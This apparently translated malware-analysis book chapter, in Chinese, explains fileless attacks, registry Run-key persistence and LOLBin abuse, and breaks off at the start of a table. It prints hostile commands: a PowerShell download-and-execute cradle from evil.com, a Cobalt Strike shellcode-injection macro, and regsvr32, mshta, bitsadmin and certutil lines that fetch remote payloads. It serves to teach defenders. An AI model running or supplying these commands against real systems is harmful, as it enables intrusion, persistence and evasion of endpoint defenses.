









## 第十六章：15 无文件攻击、利用系统资源攻击和反取证技术


无论现代恶意软件设计得多么隐蔽，它总是不可避免地在受害者环境中留下至少一些存在的痕迹。这些痕迹可能是持久性机制，比如系统启动任务或服务，或者仅仅是攻击过程中写入磁盘的文件。在后者的情况下，一旦文件写入磁盘，像反恶意软件这样的防御机制就有更好的机会检测到恶意软件并阻止攻击。痕迹证据还可以为调查人员提供分析攻击后期入侵的优势。恶意软件作者意识到这一点，因此转向了无文件恶意软件和反取证技术。

*无文件恶意软件*，有时称为*内存驻留恶意软件*，是不创建或篡改硬盘上的文件的恶意软件；相反，它的痕迹仅存在于内存中。更广义地说，*无文件攻击*一词指的是整个攻击链（或至少其中的主要部分）是无文件的。无文件攻击使得恶意软件检测变得更加困难，因为它对主机防御（如反恶意软件）的影响较小，也使得取证调查人员在分析攻击的范围和影响时更加困难。这些攻击利用了如第十二章中描述的进程注入技术，以及本章稍后讨论的“利用系统资源二进制文件”（LOLBins）等技术。

*反取证*是一类技术，攻击者通过这些技术试图隐藏或删除攻击痕迹，以抑制未来的取证调查。攻击者可能指示他们的恶意软件终止自身并删除内存中的痕迹，删除或损坏磁盘上的文件，清除或篡改日志和证据，甚至完全摧毁受害者系统，所有这些都是为了抑制未来的调查。我们将在本章稍后讨论反取证。首先，让我们更深入地了解无文件攻击。

### 无文件攻击的工作原理

虽然传统的恶意软件威胁通常依赖于文件写入磁盘，但无文件恶意软件完全（或几乎完全）在内存中运行，以尽量减少在受害主机上的痕迹。图 15-1 展示了一个假设但现实的无文件攻击。

让我们一步步分析这个攻击。首先，恶意软件作者向受害者发送一封包含恶意 Microsoft Word 文档的电子邮件。受害者用户愉快地打开文档（就像人们常做的那样），这随后执行了一个嵌入的*Visual Basic for Applications*（*VBA*）脚本：这段代码可以嵌入到合法的文档中，用来自动化常见任务，但经常被滥用用于更恶意的目的。嵌入的 VBA 脚本调用了一个内置的 Windows 工具*certutil.exe*，该工具从攻击者的暂存服务器下载一个编码的 PowerShell 脚本。一旦编码脚本下载完成，certutil 会解码它，然后使用*powershell.exe* 执行该脚本。这个 PowerShell 脚本会将代码写入 Windows 注册表，并在系统重启时执行。不久之后，受害者用户关闭了笔记本电脑，准备休息并回家。



图 15-1：无文件攻击

快进到 12 小时后，用户启动笔记本电脑准备迎接新的一天工作。系统启动时，存储在注册表中的恶意代码开始执行。它包含一个混淆的 PowerShell 命令，从攻击者的暂存服务器下载另一个脚本。这个脚本被注入到正在运行的 PowerShell 进程中，完全没有在磁盘上留下任何文件。下载的脚本包含字节码，在内存中形成一个可执行文件，然后被注入到一个新进程（*malware.exe*）中。恶意软件的有效负载是一个信息窃取者变种，开始从主机中收集敏感数据。

这个攻击看起来可能过于复杂，但对于有分析无文件攻击经验的人来说，这一点也不难理解。在这个场景中，有一些有趣的技术被使用。首先，一个恶意命令被写入并存储到注册表中。无文件恶意软件有时会使用注册表来存储命令、代码或配置信息，以避免在磁盘上写入新文件。由于注册表以专有的二进制格式存储在磁盘上，并且只有在驻留在内存中时才处于人类可读状态，因此这仍然被视为一种无文件技术（有关更多内容，请参见《无文件攻击的悖论》框）。隐藏在注册表中的恶意软件有时被称为*注册表驻留恶意软件*（这是无文件恶意软件的一个子类别，稍后我会提到）。从注册表中执行的 PowerShell 命令还会完全在内存中下载并执行恶意代码。

第二，攻击中调用的 Windows 工具（特别是 *certutil.exe* 和 *powershell.exe*）可以被归类为 LOLBins，LOLBin 是指合法的 Windows 工具或已经在目标系统上可用的工具。这些工具通常用于系统管理和维护等常见任务，但也可以很容易地被滥用来执行未经授权的代码并隐藏恶意操作。无文件攻击通常会利用 LOLBins，其中一些可以通过恶意软件在内存中执行代码。

### 持久性和注册表驻留恶意软件

在刚才描述的无文件攻击场景中，恶意软件将 PowerShell 命令写入注册表，并将其设置为在下次启动时自动运行。Windows 注册表为恶意软件提供了一个安全的藏匿地点，因为在这里它不太可能被发现，至少对那些不知道具体查找什么的人来说是如此。不仅如此，反恶意软件和其他终端防护程序也可能没有配置为扫描注册表中的恶意软件。

这种技术是恶意软件试图建立 *持久性* 的一种方式：即在系统重启后仍然保持在受感染的主机上。恶意软件可以使用多种策略在受害系统上保持持久性，但这里我们将重点讨论注册表持久性，因为它与注册表驻留的恶意软件直接相关。

Run 和 RunOnce 是特殊的注册表键，每当用户登录系统时都会调用它们。它们可以指向可执行文件、脚本等文件类型，甚至可以接受命令行参数。它们位于以下注册表位置：

+   *HKLM\Software\Microsoft\Windows\CurrentVersion\Run*

+   *HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce*

+   *HKCU\Software\Microsoft\Windows\CurrentVersion\Run*

+   *HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce*

Run 键在每次用户登录时都会被调用。RunOnce 键只会在下次登录时调用一次。每个键都包含一个名称和一个表示要运行的命令或要执行的文件的值。

通过操作这些键，恶意软件作者可以直接从注册表执行恶意软件及其关联命令。为了演示，我向注册表键 *HKLM\Software\Microsoft\Windows\CurrentVersion\Run* 添加了一个名为 Evil 的新 Run 键。图 15-2 显示了这个键，它可以通过 *regedit.exe* 查看和编辑。



图 15-2：向注册表中添加新的恶意 Run 键

这个键只是简单地调用 *powershell.exe* 并执行 pause 命令。现在，每次我登录我的计算机时，都会弹出一个 PowerShell 提示符。显然，恶意软件作者会更愿意做一些比仅在每次登录时弹出 PowerShell 提示符更恶意的事情。他们可能会执行一个更复杂的命令，比如以下内容：

```
powershell.exe -C "IEX(New-Object Net.WebClient).DownloadString('https://evil.com/evil.ps1')"
```

执行后，当系统用户登录 Windows 时，此命令会从远程 Web 服务器 (*evil.com*) 下载一个 PowerShell 脚本 (*evil.ps1)*，并直接在内存中执行。我们这里不再讨论这个命令，因为本章后面会更详细地介绍 PowerShell，但请记住，恶意软件可以轻松地将命令和代码隐藏在注册表中，使用 运行 和 运行一次 键是其中一种方法。表 15-1 显示了其他非详尽的 运行 键和注册表中的持久性位置。

表 15-1： 恶意软件可能使用的注册表键来建立持久性

| 注册表项/键 | 描述 |
| --- | --- |

| HKCU\<wbr>Software\<wbr>Microsoft\<wbr>Windows\ CurrentVersion\<wbr>Policies\<wbr>Explorer\<wbr>RunHKLM\<wbr>Software\<wbr>Microsoft\<wbr>Windows\

当前版本\<wbr>策略\<wbr>资源管理器\<wbr>运行 | 这些 运行 键类似于之前提到的键。任何添加到它们的内容都会在用户登录时执行。它们在 Windows 中不会默认创建，因此必须手动添加。 |

| HKCU\<wbr>Software\<wbr>Microsoft\<wbr>Windows NT\ CurrentVersion\<wbr>WinlogonHKLM\<wbr>Software\<wbr>Microsoft\<wbr>Windows NT\

CurrentVersion\<wbr>Winlogon | 这些键包含 Windows 登录配置，包括在登录时执行的程序。这些可以被修改以运行恶意软件或恶意命令。 |

| HKLM\<wbr>System\<wbr>CurrentControlSet\<wbr>Services | 此键包含主机上配置的服务信息。驱动程序也包含在此 HKLM\<wbr>SYSTEM\<wbr>CurrentControlSet\​Services\<wbr><DriverName>。如果恶意软件将持久性机制（或恶意驱动程序）作为服务安装，它可以在这里看到。 |
| --- | --- |

这只是持久性机制冰山一角。这里描述的 Run 键是文件无持久性技术中最常用的一些，但还有其他的。欲了解更多信息，请访问 MITRE ATT&CK 网站 [*https://<wbr>attack<wbr>.mitre<wbr>.org<wbr>/tactics<wbr>/TA0003<wbr>/*](https://attack.mitre.org/tactics/TA0003/)。

### 利用现有资源的二进制文件

现在让我们转向恶意软件可能用来发起无文件攻击的另一种技术：LOLBin。有几个原因可能导致恶意软件调用 LOLBin：

**绕过应用程序限制控制，如 AppLocker**

AppLocker 是 Windows 的一种安全控制，用于防止不需要的应用程序执行。恶意软件可以通过使用系统二进制文件作为代理来绕过它。

**避免被检测**

EDR、反恶意软件和其他端点防御系统对 LOLBin 的审查较少，因为它们通常是数字签名的，因此由操作系统本身验证。此外，许多 LOLBin 允许恶意代码在内存中执行，这进一步增强了其规避能力。

**隐藏在噪音中**

由于日常系统管理员工作需要使用许多 LOLBin，因此很难开发出有效的逻辑来检测这些工具的恶意使用；它们生成的噪音可能会给分析人员带来筛选的挑战。

**阻碍调查**

由于许多 LOLBin 实际上允许恶意代码在内存中执行并支持无文件攻击，调查这些攻击有时比调查那些在磁盘上留下较大痕迹的攻击更困难。

LOLBin 的分类可能相当主观。一些专家认为，LOLBin 是可以被威胁行为者以意外方式滥用的合法应用程序。然而，这一定义将排除所有可以被行为者以“预期”方式滥用的应用程序（例如，调用 *cmd.exe* 删除文件）。我的看法更符合攻击者“利用现有资源”的本质，这意味着攻击者可以并且会利用任何可用的资源，而“预期”和“意外”的使用场景并不被考虑。在我看来，LOLBin 是任何常见的应用程序或工具，它可以被行为者滥用。让我们看看如何借助 VBA 代码和宏来实现这一点。

#### 基于 VBA 宏的恶意软件

土地生存技巧通常始于一个含有恶意软件的文档，该文档触发了 LOLBin 的攻击链。这类文档通常（但不总是）是 Microsoft Word 或 Excel 文档，恶意代码通常以 VBA 宏的形式存在。*宏*最初是为了自动化文档文件中的常见用户任务而设计的，但正如你所看到的，它们也被威胁行为者用来部署额外的恶意软件。

> 注意

*在撰写本文时，VBA 宏被滥用于恶意目的的情况已经显著减少。默认情况下，Microsoft Office 现在会阻止来自不受信任来源的文档执行宏，因此这种攻击途径变得更加难以实现。然而，攻击者可能能够绕过这些限制，或使用其他文档格式，如 Rich Text Format (RTF)和 Portable Document Format (PDF)，以实现类似效果。*

VBA 宏代码非常强大；它甚至可以导入 Windows DLL 并调用 WinAPI 函数。例如，攻击工具 Cobalt Strike 使用嵌入在 Microsoft Office 文档中的宏，将 shellcode 注入到正在运行的进程中，并从恶意 Web 服务器下载额外的有效载荷（称为*beacon*）。以下是稍作修改以便于阅读和简洁的 Cobalt Strike stager 宏代码示例：

```
shellcode = Array(-4,-24,-119,0,0,0,96,-119,-27,49,-46,100,-117,82,48,-117,82,12,-117,
82,20,-117, ... ) ❶

  If Len(Environ("ProgramW6432")) > 0 Then ❷
    sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
  Else
    sProc = Environ("windir") & "\\System32\\rundll32.exe"
  End If

res = CreateProcessA(..., sProc, ..., ..., ..., ..., ..., ..., ... ) ❸

rwxpage = VirtualAllocEx(pInfo.hProcess, 0, UBound(shellcode), &H1000, &H40) ❹

For offset = LBound(shellcode) To Ubound(shellcode) ❺
  myByte = shellcode(offset)
  res = WriteProcessMemory(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
  Next offset

res = CreateRemoteThread(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0) ❻
```

这里有很多内容，我们逐块分析。首先，这段代码定义了一个字节数组，当它转换为十六进制格式时，实际上是恶意的 shellcode ❶。接下来，代码检查 Windows 环境是 32 位还是 64 位，并选择适当的目录（32 位架构选择 System32，64 位架构选择 SysWOW64）来调用 Windows 实用程序*rundll32.exe* ❷。代码调用CreateProcessA启动一个*rundll32.exe*实例 ❸，然后调用VirtualAllocEx在该进程内分配内存 ❹。分配的内存区域与 shellcode 数组的大小相同。

接下来，使用一个for循环，代码通过使用WriteProcessMemory ❺将每个字节的 shellcode 写入新分配的内存区域。最后，宏代码通过调用CreateRemoteThread ❻在*rundll32.exe*的上下文中执行注入的 shellcode。如果你还记得第十二章，你可能会发现这是一种 shellcode 注入的形式。

*rundll32.exe* 工具是 Windows 环境中许多 LOLBins 之一。（你很快会了解更多关于它的信息。）在这个例子中，Cobalt Strike 的加载器将 *rundll32.exe* 作为其恶意代码的代理，将代码隐藏在该进程中，从而潜在地规避终端防御控制和令人生厌的安全分析人员。

接下来，我们将讨论通过滥用合法的 Windows 工具，利用系统二进制代理执行技术来掩盖恶意代码的另一种技巧。

#### 系统二进制代理执行

*系统二进制代理执行* 是一种通过合法（且通常经过数字签名的）Windows 工具执行代码的技术。通过签名的二进制文件代理执行的原因之一是绕过像 AppLocker 这样的应用程序阻止控制。这种攻击方式还可以帮助恶意软件避开反恶意软件等终端防御。这种技术可以滥用以下文件类型：

+   默认包含在大多数 Windows 安装中的二进制文件，因此在绝大多数受害者环境中存在。

+   Windows 默认不包含但仍然非常常见的二进制文件。例如，PSExec 是一个用于系统管理的流行工具，ProcDump 是一个用于转储目标进程内存的工具。由于这些工具可能在攻击前的受害者环境中不存在，因此在调用之前可能需要将它们传输到受害者系统中。本书中不会进一步讨论这些工具。

让我们开始看看一些最常用的 LOLBins，用于代理执行。

##### Rundll32

*Rundll32*，正如你在 Cobalt Strike 示例中看到的，是许多 Windows 应用程序用来执行 DLL 中代码的重要二进制文件。如果一个应用程序需要特定的 DLL，但并不直接加载它（例如，通过 LoadLibrary），它可以调用 *rundll32.exe* 并执行一个特定的导出函数，方式如下：

```
C:\> rundll32.exe library.dll,ExportedFunction
```

如你所见，rundll32 接受两个参数：DLL 文件的名称和路径（在本例中是 *library.dll*），以及将被执行的导出函数（ExportedFunction）。恶意软件也可以滥用 *rundll32.exe* 从恶意 DLL 执行代码：

```
C:\> rundll32.exe C:\Temp\evil.dll,EvilFunction
```

由于 rundll32 被 Windows 操作系统及其他各种无害进程频繁调用，它常常被用作恶意代码的代理进程。在 Cobalt Strike 的加载器示例中，它被启动并注入了 shellcode，然后用于托管和执行恶意代码。

##### Regsvr32

*Regsvr32* 是一个可执行文件，用于注册和注销 DLL 模块。恶意软件可以利用 regsvr32 在 *regsvr32.exe* 签名二进制文件的上下文中执行恶意代码，甚至从远程服务器下载并执行恶意代码。

Emotet 恶意软件家族以在其攻击链中使用 LOLBins 而闻名。某个特定变种的 Emotet 的有效负载（SHA256: d642109e621c6758027c2fc0e5ea3d1126963a001ab1858b95f82e09403943bd）是通过恶意的 Microsoft Excel 文档传送的，这些文档会下载多个有效负载和模块，并随后通过 *regsvr32.exe* 执行它们。图 15-3 是来自 Joe Sandbox 的截图，展示了这一攻击链。



图 15-3：在 Joe Sandbox 中显示的 Emotet 进程树

另一个值得注意的 regsvr32 使用示例是名为 Squiblydoo 的攻击，该攻击也利用了 Windows 脚本组件运行时 DLL *scrobj.dll*，该 DLL 通常用于执行本地 COM 脚本片段。通过结合 *regsvr32.exe* 和 *scrobj.dll* 的强大功能，Squiblydoo 恶意软件可以直接从互联网下载并执行恶意的 COM 脚本片段：

```
C:\> regsvr32.exe /s /i:http://evil.kz/script.sct C:\Windows\System32\scrobj.dll
```

该命令从 *http://<wbr>evil<wbr>.kz* 下载恶意脚本 *script.sct*，并随后通过 *scrobj.dll* 执行该脚本，所有操作都在 *regsvr32.exe* 的进程地址空间内进行，完全在内存中。更具体地说，/s 开关告诉 *regsvr32.exe* 不向受害者显示消息（这是威胁行为者不希望出现的行为）。/i 开关将以下字符串（http://evile.kz...）传递给 *scrobj.dll* 中的 DllInstall 函数。

这一技术能够实现其功能，是因为 *scrobj.dll* 文件中的 DllInstall 函数接受一个 URL，并盲目下载并执行脚本文件。你可以在 MITRE 网络分析库（CAR）中了解更多关于 Squiblydoo 技术的信息，网址为 [*https://<wbr>car<wbr>.mitre<wbr>.org<wbr>/analytics<wbr>/CAR<wbr>-2019<wbr>-04<wbr>-003<wbr>/*](https://car.mitre.org/analytics/CAR-2019-04-003/)。

##### Mshta

Mshta 用于执行 *HTML 应用程序*（.*hta*）文件，这些脚本文件可以包含 HTML、VBScript、JavaScript 或其他类型的脚本。HTA 文件通过 HTML 提供图形用户界面，脚本代码则提供应用程序的逻辑。恶意软件通常使用 *mshta.exe* 从远程服务器下载并执行文件，以下是一个来自恶意微软 Excel 文件的示例：

```
C:\> mshta.exe https://www.mediafire.com/file/bcl9/2.htm/file
```

一个特定的恶意软件样本（SHA256: 03f03a3f36c87d8cb7cd5f8ce6e324917253eeca4f3ea164f35242146e26e2b1）通过 *mshta.exe* 调用 *rundll32.exe*，展示了某些攻击如何将多个 LOLBin 链接在一起。图 15-4 显示了来自 Joe Sandbox 的报告（* [`www.joesandbox.com/analysis/670279`](https://www.joesandbox.com/analysis/670279) *）。



图 15-4：Joe Sandbox 分析报告中显示的 LOLBin 攻击链

在此沙箱分析中，您可以看到一个 Microsoft Excel 文档启动 *rundll32.exe*（可能通过嵌入的 VBA 代码或类似技术），然后调用 *mshta.exe* 从 *mediafire.net* 下载并执行文件。

##### BITSAdmin

*背景智能传输服务 (BITS)* 用于将文件传输到 Web 服务器和文件共享之间。BITS 可以通过“作业”进行配置，自动管理文件传输开销，监控网络使用、延迟和文件大小，并允许暂停和恢复文件传输。BITSAdmin 应用程序，*bitsadmin.exe*，用于管理 BITS。

恶意软件可以滥用 BITS 从远程服务器下载并执行有效载荷。以下命令将创建一个名为 myjob 的新文件传输作业，并将其设置为高优先级，然后从 *evil.uk* 域下载 *malicious.exe* 文件，并将其保存在 *C:\Users\AppData\Roaming* 目录中：

```
C:\> bitsadmin.exe /transfer myjob /download /priority high
http://evil.uk/malicious.exe C:\Users\AppData\Roaming\malicious.exe
```

##### InstallUtil

*InstallUtil* 是 Windows .NET 框架的一个组件，操作系统和其他应用程序用它来安装服务器资源和服务。恶意软件也可以利用它来调用可执行文件和 DLL 文件。以下命令在 *installutil.exe* 的上下文中执行 *evil.dll*：

```
C:\> C:\Windows\Microsoft.NET\Framework\`version`\installutil.exe /logfile=
/LogToConsole=false /U evil.dll
```

主机上可能安装了多个版本的 .NET，因此此处的 version 会替换为特定版本，例如 v4.0.30319。与许多 LOLBin 一样，*installutil.exe* 常常被系统管理员出于合法目的使用，因此很难防止这种未经授权的使用，特别是当这意味着限制管理员的工作方式时。最好限制可以执行此工具的用户组，或者（至少）监控用户组对该工具的使用并定期审查日志。

##### Certutil

*certutil.exe* 二进制文件是 Windows 证书服务组件的一部分，可用于显示信息、验证、配置和安装数字证书。攻击者可以通过几种有趣的方式滥用它。例如，一个恶意的 Microsoft Excel 文档 (SHA256:d009299a787cf9b7995827014e72525038eecd3e1f99820d66854fc865d39047) 下载并执行了来自远程服务器的 Lokibot 有效载荷，命令如下：

```
C:\> certutil.exe -urlcache -split -f "http://45.155.165.63/tq/loader/uploads/Product_Details
_018_RFQ.exe" Zcldxvqciopgykje.exe
```

该命令调用 certutil，从 Web 服务器（45.155.165.63）下载一个可执行文件 (*Zcldxvqciopgykje.exe*)，并执行它。

恶意软件也可以使用 certutil 来编码或解码文件，方法如下：

```
C:\> certutil -encode evil.dll evil_encoded.dll
```

-encode 开关告诉 certutil 对文件进行 Base64 编码（我们将在第十六章中讨论 Base64）。以这种方式编码文件可以作为一种粗略的方法，将文件隐藏在磁盘上，或者在从网络中导出数据时混淆数据，以绕过网络防御。Certutil 是多用途 LOLBin 的一个很好的例子。

##### Windows 脚本宿主

Windows 包含多个内置工具，作为 *Windows 脚本宿主（WSH）* 的一部分，用于运行脚本语言，如 VBScript（*.vbs* 和 *.vbe* 文件）和 JavaScript（*.js* 和 *.jse* 文件）。像 *wscript.exe* 和 *cscript.exe* 这样的工具是 WSH 的一部分。这些工具可以从命令行执行，或者作为新进程启动，用于运行各种类型的脚本文件。与用 C++ 编写可执行文件相比，脚本编写要简单得多，因此一些恶意软件利用了这一点。一个例子是，一个嵌入了代码的 Microsoft Word 文档 (SHA256: ccc8d5aa5d1a682c20b0806948bf06d1b5d11961887df70c8902d2146c6d1481) 会将一个 JavaScript 文件写入磁盘，并使用 *wscript.exe* 通过以下命令执行该脚本：

```
C:\> wscript.exe C:\Users\Public\olapappinuggerman.js
```

执行时，脚本会从恶意软件家族 OriginLogger 中下载一个样本。这个恶意文档是一个多阶段攻击的一部分，后续还会调用 *mshta.exe*。

*wscript.exe* 二进制文件还可以直接从 NTFS 替代数据流（ADS）中执行脚本文件，稍后在本章中会讲到。现在，只需知道恶意软件可以将文件隐藏在 ADS 中，这有效地将它们隐藏于不被窥探的视野之外，并避开某些终端防御。要执行隐藏在另一文件中的 ADS 中的脚本文件，可以使用以下命令：

```
C:\> wscript.exe C:\innocent.txt:evil_script.vb
```

脚本通常不在本书的范围内，但请注意，现代威胁通常使用像 JavaScript 和 VBScript 这样的脚本语言，这些脚本语言可以通过 Windows 内置的脚本解释器轻松执行。

#### Windows 命令行及其他实用工具

内置的命令提示符（*cmd.exe*），它是 Windows 中默认的命令行工具，广泛用于合法和恶意目的。例如，恶意软件可以利用命令行终止进程、删除文件、进行系统配置更改以及删除备份。它使用的一些命令也可以归类为 LOLBin 攻击，因为*cmd.exe*常常用于执行其他工具。恶意软件通常通过创建新进程（例如调用CreateProcess）并将其希望运行的命令作为参数传入来调用命令提示符。

命令提示符最常见的使用方式之一是直接执行其他文件和应用程序。下面的代码可能类似于以下内容，它调用了一个名为*flashplayer.exe*的可执行文件：

```
`--snip--`
lpCommandLine = "cmd.exe /c C:\Users\John\AppData\Local\Temp\flashplayer.exe"

CreateProcessW (..., lpCommandLine, ... )
`--snip--`
```

表 15-2 列出了其他一些命令和工具，它们有时会被恶意软件滥用以执行恶意操作。这个列表并不详尽，因为有许多命令可以通过*cmd.exe*调用。

表 15-2： 恶意软件可能使用的工具和命令

| 工具/命令 | 示例 | 描述 |
| --- | --- | --- |
